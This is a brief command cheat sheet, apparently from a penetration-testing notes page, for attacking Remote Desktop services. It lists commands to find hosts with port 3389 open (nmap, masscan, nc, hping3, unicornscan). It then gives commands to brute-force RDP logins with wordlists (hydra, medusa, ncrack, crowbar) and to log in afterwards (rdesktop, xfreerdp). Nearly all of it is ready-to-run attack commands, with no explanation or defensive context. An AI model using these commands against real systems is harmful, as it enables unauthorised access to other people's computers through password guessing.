 or

```text
nmap -sS -p 3389 [target IP address]
```

or

```text
masscan -p3389 192.168.1.0/24 --rate=10000
```

or

```text
nc -zv 192.168.1.1 3389
```

or

```
hping3 -S 192.168.1.0/24
```

or

```
unicornscan -mT 192.168.1.0/24:a
```


To Crack:

```
hydra -l username -P /path/to/wordlist.txt rdp://targetip
```

or

```
medusa -u username -P /path/to/wordlist.txt -h targetip -M rdp
```

or

```
ncrack -vv --user username -P /path/to/wordlist.txt rdp://targetip
```

or

```
crowbar -b rdp -s targetip/32
```

To Connect:

```
rdesktop -u username -p password -g 1024x768 -a 16 x.x.x.x
```

or

```
xfreerdp /u:username /p:password /v:rdp-server
```
